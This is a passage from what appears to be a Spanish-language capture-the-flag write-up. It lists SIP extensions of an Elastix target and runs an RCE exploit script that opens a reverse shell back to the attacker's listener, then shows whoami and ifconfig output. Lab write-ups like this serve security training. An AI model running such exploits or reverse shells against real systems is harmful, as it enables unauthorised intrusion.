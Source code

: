 ```bash
+-----------+----------------+
| Extension | Authentication |
+===========+================+
| 100       | weird          |
+-----------+----------------+
| 102       | weird          |
+-----------+----------------+
| 113       | weird          |
+-----------+----------------+
| 118       | weird          |
+-----------+----------------+
+-----------+----------------+
| 351       | weird          |
+-----------+----------------+
| 233       | reqauth        |
+-----------+----------------+
| 235       | weird          |
+-----------+----------------+
+-----------+----------------+
| 493       | weird          |
+-----------+----------------+
| 497       | weird          |
+-----------+----------------+
```

Para este caso, el valor de *extension* es 233. Una vez realizados los cambios y procedemos a ejecutar el exploit.

```bash
❯ python elastix_rce.py --lhost 10.10.14.6
[+] Payload: Payload generated
[+] Shell: Established connection!
[+] Trying to bind to :: on port 443: Done
[+] Waiting for connections on :::443: Got connection from ::ffff:10.10.10.7 on port 45927
[-] Request: Payload sent correctly
[*] Switching to interactive mode
$ whoami
asterisk
$ ifconfig
eth0      Link encap:Ethernet  HWaddr 00:50:56:B9:B2:53  
          inet addr:10.10.10.7  Bcast:10.10.10.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:628 errors:0 dropped:0 overruns:0 frame:0
          TX packets:456 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:100256 (97.9 KiB)  TX bytes:111602 (108.9 KiB)
          Interrupt:59 Base address:0x2024 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:7558 errors:0 dropped:0 overruns:0 frame:0
          TX packets:7558 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:1124965 (1.0 MiB)  TX bytes:1124965 (1.0 MiB)
$
```

